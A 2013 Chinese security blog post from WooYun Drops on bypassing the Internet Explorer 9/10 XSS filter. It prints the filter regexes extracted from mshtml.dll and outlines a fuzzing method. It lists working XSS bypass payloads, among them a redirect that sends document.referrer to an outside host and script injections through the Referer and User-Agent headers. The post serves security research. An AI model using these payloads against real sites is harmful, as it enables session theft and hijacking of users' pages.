






# Bypass IE XSS Filter 

2013/07/03 11:41 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 背景

* * *

从 IE8 beta2 开始，微软加入了 xss Filter。如同大部分安全产品一样，防护的对策就是利用规则去过滤攻击代码，基于可用和效率的考虑，同时加入黑白名单策略（即同源策略）。

经过几代的更新和大量 hack 爱好者的测试（微软喜欢招揽一些帮助寻找漏洞的人才），到 IE9 已经有了比较好的提升。下面主要针对 IE9 和 IE10.

### 0x01 找根源

* * *

IE xss filter 工作原理



其流程



这里有很多环节可以 bypass 例如验证同源 80sec 发现的问题。

[`www.80sec.com/ie8-security-alert.html`](http://www.80sec.com/ie8-security-alert.html)

先针对 xss filter 的绕过进行展开。

不乏很多人的人品好，随意组合便可 bypass。以下针对像我这种人品一般的人，真正能游刃有余，就需要知道 IE 的 xss Filter 的正则。

### 0x02 提取正则

* * *

这里提供几种方法寻找 IE xss Filter 的正则。（Ie 的 xss filter regx 存在于系统内核 mshtml.dll 模块中）。

查找很简单 可以使用 notepad++ textfx 16 进制查看。（搜索‘sc{’）



或者使用 winhex(作者喜欢的工具) （搜索‘sc{’）



不过这里强烈建议大家熟悉下 IDApro(原因：后面你研究 webkit 或者 andriod 等其他应用时，IDApro 是非常好用的利器)



这里给出一个老外 blog 的一条 console 命令 非常实用。

```
findstr /C:"sc{r}" \WINDOWS\SYSTEM32\mshtml.dll|find "{" 
```

这里得到 IE9  2013\2 的 xssfilter regx

```
{(v|(&[#()\[\].]x?0*((86)|(56)|(118)|(76));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(b|(&[#()\[\].]x?0*((66)|(42)|(98)|(62));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(s|(&[#()\[\].]x?0*((83)|(53)|(115)|(73));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(c|(&[#()\[\].]x?0*((67)|(43)|(99)|(63));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*{(r|(&[#()\[\].]x?0*((82)|(52)|(114)|(72));?))}([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(i|(&[#()\[\].]x?0*((73)|(49)|(105)|(69));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(p|(&[#()\[\].]x?0*((80)|(50)|(112)|(70));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(t|(&[#()\[\].]x?0*((84)|(54)|(116)|(74));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(:|(&[#()\[\].]x?0*((58)|(3A));?)).}
{(j|(&[#()\[\].]x?0*((74)|(4A)|(106)|(6A));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(a|(&[#()\[\].]x?0*((65)|(41)|(97)|(61));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(v|(&[#()\[\].]x?0*((86)|(56)|(118)|(76));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(a|(&[#()\[\].]x?0*((65)|(41)|(97)|(61));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(s|(&[#()\[\].]x?0*((83)|(53)|(115)|(73));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(c|(&[#()\[\].]x?0*((67)|(43)|(99)|(63));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*{(r|(&[#()\[\].]x?0*((82)|(52)|(114)|(72));?))}([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(i|(&[#()\[\].]x?0*((73)|(49)|(105)|(69));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(p|(&[#()\[\].]x?0*((80)|(50)|(112)|(70));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(t|(&[#()\[\].]x?0*((84)|(54)|(116)|(74));?))([\t]|(&[#()\[\].]x?0*(9|(13)|(10)|A|D);?))*(:|(&[#()\[\].]x?0*((58)|(3A));?)).}
{<st{y}le.*?>.*?((@[i\\])|(([:=]|(&[#()\[\].]x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&[#()\[\].]x?0*((40)|(28)|(92)|(5C));?))))}
{[ /+\t\"\'`]st{y}le[ /+\t]*?=.*?([:=]|(&[#()\[\].]x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&[#()\[\].]x?0*((40)|(28)|(92)|(5C));?))}
{<OB{J}ECT[ /+\t].*?((type)|(codetype)|(classid)|(code)|(data))[ /+\t]*=}
{<AP{P}LET[ /+\t].*?code[ /+\t]*=}
{[ /+\t\"\'`]data{s}rc[ +\t]*?=.}
{<BA{S}E[ /+\t].*?href[ /+\t]*=}
{<LI{N}K[ /+\t].*?href[ /+\t]*=}
{<ME{T}A[ /+\t].*?http-equiv[ /+\t]*=}
{<[?]?im{p}ort[ /+\t].*?implementation[ /+\t]*=}
{<EM{B}ED[ /+\t].*?((src)|(type)).*?=}
{[ /+\t\"\'`]{o}n\c\c\c+?[ +\t]*?=.}
{<.*[:]vmlf{r}ame.*?[ /+\t]*?src[ /+\t]*=}
{<[i]?f{r}ame.*?[ /+\t]*?src[ /+\t]*=}
{<is{i}ndex[ /+\t>]}
{<fo{r}m.*?>}
{<sc{r}ipt.*?[ /+\t]*?src[ /+\t]*=}
{<sc{r}ipt.*?>}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).*?(((l|(\\u006C))(o|(\\u006F))({c}|(\\u00{6}3))(a|(\\u0061))(t|(\\u0074))(i|(\\u0069))(o|(\\u006F))(n|(\\u006E)))|((n|(\\u006E))(a|(\\u0061))({m}|(\\u00{6}D))(e|(\\u0065)))).*?=}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{[\[]}.*?{[\]]}.*?=}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{[.]}.+?=}
{[\"\'].*?{\)}[ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{\(}}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{\(}.*?{\)}} 
```

IE10 2013\5 的 regx

```
{<sc{r}ipt.*?>}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).*?(((l|(\\u006[Cc]))(o|(\\u006[Ff]))({c}|(\\u00{6}3))(a|(\\u0061))(t|(\\u0074))(i|(\\u0069))(o|(\\u006[Ff]))(n|(\\u006[Ee])))|((n|(\\u006[Ee]))(a|(\\u0061))({m}|(\\u00{6}[Dd]))(e|(\\u0065)))|((o|(\\u006[Ff]))(n|(\\u006[Ee]))({e}|(\\u00{6}5))(r|(\\u0072))(r|(\\u0072))(o|(\\u006[Ff]))(r|(\\u0072)))|((v|(\\u0076))(a|(\\u0061))({l}|(\\u00{6}[Cc]))(u|(\\u0075))(e|(\\u0065))(O|(\\u004[Ff]))(f|(\\u0066)))).*?=}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{[\[]}.*?{[\]]}.*?=}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{[.]}.+?=}
{[\"\'].*?{\)}[ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{\(}}
{[\"\'][ ]*(([^a-z0-9~_:\'\" ])|(in)).+?{\(}.*?{\)}}
{[\"\'].*?[{,].*(((v|(\\u0076)|(\\166)|(\\x76))[^a-z0-9]*({a}|(\\u00{6}1)|(\\1{4}1)|(\\x{6}1))[^a-z0-9]*(l|(\\u006C)|(\\154)|(\\x6C))[^a-z0-9]*(u|(\\u0075)|(\\165)|(\\x75))[^a-z0-9]*(e|(\\u0065)|(\\145)|(\\x65))[^a-z0-9]*(O|(\\u004F)|(\\117)|(\\x4F))[^a-z0-9]*(f|(\\u0066)|(\\146)|(\\x66)))|((t|(\\u0074)|(\\164)|(\\x74))[^a-z0-9]*({o}|(\\u00{6}F)|(\\1{5}7)|(\\x{6}F))[^a-z0-9]*(S|(\\u0053)|(\\123)|(\\x53))[^a-z0-9]*(t|(\\u0074)|(\\164)|(\\x74))[^a-z0-9]*(r|(\\u0072)|(\\162)|(\\x72))[^a-z0-9]*(i|(\\u0069)|(\\151)|(\\x69))[^a-z0-9]*(n|(\\u006E)|(\\156)|(\\x6E))[^a-z0-9]*(g|(\\u0067)|(\\147)|(\\x67)))).*?:}
{<AP{P}LET[ /+\t>]}
{<OB{J}ECT[ /+\t].*?((type)|(codetype)|(classid)|(code)|(data))[ /+\t]*=}
{<BA{S}E[ /+\t].*?href[ /+\t]*=}
{[ /+\t\"\'`]data{s}rc[ +\t]*?=.}
{<LI{N}K[ /+\t].*?href[ /+\t]*=}
{<[?]?im{p}ort[ /+\t].*?implementation[ /+\t]*=}
{<ME{T}A[ /+\t].*?http-equiv[ /+\t]*=}
{[ /+\t\"\'`]{o}n\c\c\c+?[ +\t]*?=.}
{<EM{B}ED[ /+\t].*?((src)|(type)).*?=}
{<.*[:]vmlf{r}ame.*?[ /+\t]*?src[ /+\t]*=}
{<is{i}ndex[ /+\t>]}
{<[i]?f{r}ame.*?[ /+\t]*?src[ /+\t]*=}
{<sc{r}ipt.*?[ /+\t]*?src[ /+\t]*=}
{<fo{r}m.*?>}
{(v|(&#x?0*((86)|(56)|(118)|(76));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(b|(&#x?0*((66)|(42)|(98)|(62));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(s|(&#x?0*((83)|(53)|(115)|(73));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(c|(&#x?0*((67)|(43)|(99)|(63));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*{(r|(&#x?0*((82)|(52)|(114)|(72));?))}([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(i|(&#x?0*((73)|(49)|(105)|(69));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(p|(&#x?0*((80)|(50)|(112)|(70));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(t|(&#x?0*((84)|(54)|(116)|(74));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(:|(&((#x?0*((58)|(3A));?)|(colon;)))).}
{(j|(&#x?0*((74)|(4A)|(106)|(6A));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(a|(&#x?0*((65)|(41)|(97)|(61));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(v|(&#x?0*((86)|(56)|(118)|(76));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(a|(&#x?0*((65)|(41)|(97)|(61));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(s|(&#x?0*((83)|(53)|(115)|(73));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(c|(&#x?0*((67)|(43)|(99)|(63));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*{(r|(&#x?0*((82)|(52)|(114)|(72));?))}([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(i|(&#x?0*((73)|(49)|(105)|(69));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(p|(&#x?0*((80)|(50)|(112)|(70));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(t|(&#x?0*((84)|(54)|(116)|(74));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(:|(&((#x?0*((58)|(3A));?)|(colon;)))).}
{<st{y}le.*?>.*?((@[i\\])|(([:=]|(&#x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&#x?0*((40)|(28)|(92)|(5C));?))))}
{[ /+\t\"\'`]st{y}le[ /+\t]*?=.*?([:=]|(&#x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&#x?0*((40)|(28)|(92)|(5C));?))} 
```

观察下 IE9 到 IE10 的变化 ，可以看出 IE10 比 IE9 又更新了不少正则。

可见 IE 正则是 ATL 系列。Webkit 用 JSCRE（基于 pcre）。Chrome 早期也用 jscre，09 年以后采用 Irregexp。

通过正则可以测试出一些 bypass.

以 IE9 为例：

```
Regx1= \[\"\'\]\[ \]*(([^a-z0-9~_:\'\" ])|(in)).*?(location).*?= 
(老正则) 

Bypass : "+{valueOf:location, toString: [].join,0:'jav\x61script:alert\x280)',length:1}// location("http://xss.me/"); 
```

又比如 IE 的复参绕过：

```
param1=<script>prompt(9);/*&param2=*/</script> 
```

最近绕过 account.google.com 的 32 位编码绕过，地址：[`zone.wooyun.org/content/4448`](http://zone.wooyun.org/content/4448)。

有意思的是：感觉上 日本人喜欢用 unicode 的编码 上次见过有用 ᴮᴵᴳᴮᴵᴿᴰ （\u1d2e\u1d35\u1d33\u1d2e\u1d35\u1d3f\u1d30）重置 BIGBIRD 用户密码的。

美国人喜欢用类似这种变形

```
<script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script> 
```

老毛子喜欢用各种特殊字符（以上个人见解）。    

### 0x03 进行 Fuzz

* * *

简单的浏览观察，并不能高效的进行 bypass.

转化为脚本

这里当我把 python 改完，突然意识到 python 的正则是 pcre 的！还好 webkit 的 filter 是基于 pcre 的（下次内容写 webkit）。

微软向来用自己家东西，用 C++写了个 fuzz 程序进行 fuzz 测试。 

用法。IEfilter.txt 是 IE 的正则。Bypasstest.txt 是绕过语句，result 和 console 界面程序会保存输出结果。



downloadlink:[`pan.baidu.com/share/link?shareid=1243023532&uk=1259968226`](http://pan.baidu.com/share/link?shareid=1243023532&uk=1259968226)

Bypastest 内容可以自己生成。如果以前玩过 spike 的同学可以直接借用之前的 payload 和方法.

这里提供以下生成 payload 思路：

```
1.特殊字符 [0x09,0x0A-0x0D,0x20,0xA0] 
2.不同编码 xc2xb4xe2x80x99xe2x80 甚至畸形编码ф1й2у3ц4 
3.生僻函数 
4.边界变量 
```

剩下的大家自己动手研究。

### 0x04 一些分享

* * *

欢迎和我沟通或者写文章（升，升，升！）

来自国外的一些 tip.（多关注国外技术 blog 或者论坛）

```
Tip1: var url = "htpp://xss.cx/default.aspx?xss="+encodeURIComponent(document.referrer)"; if (window!=top) {top.location.href = url;} else document.location= url; 
Tip2: <script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script> 
Tip3: <body/onload="@set @evil=1; @if(@evil)eval(confirm(@evil))@end;"> 
Tip4: "><script>alert(document.location)</script> (webkit) 
Tip5: "-prompt(document.location)-" (webkit) 
Tip6: Referer: http://www.google.com/search?hl=en&q=xss"><script>prompt(9)</script> (webkit) 
Tip7: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0)xss"><script>prompt(9)</script> (webkit)   短短研究过这个。 
```

参考：

[`blogs.technet.com/b/srd/archive/2008/08/19/ie-8-xss-filter-architecture-implementation.aspx`](http://blogs.technet.com/b/srd/archive/2008/08/19/ie-8-xss-filter-architecture-implementation.aspx) [`www.80sec.com`](http://www.80sec.com)

**Tags:** [filter](http://drops.wooyun.org/tag/filter), [IE](http://drops.wooyun.org/tag/ie), [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)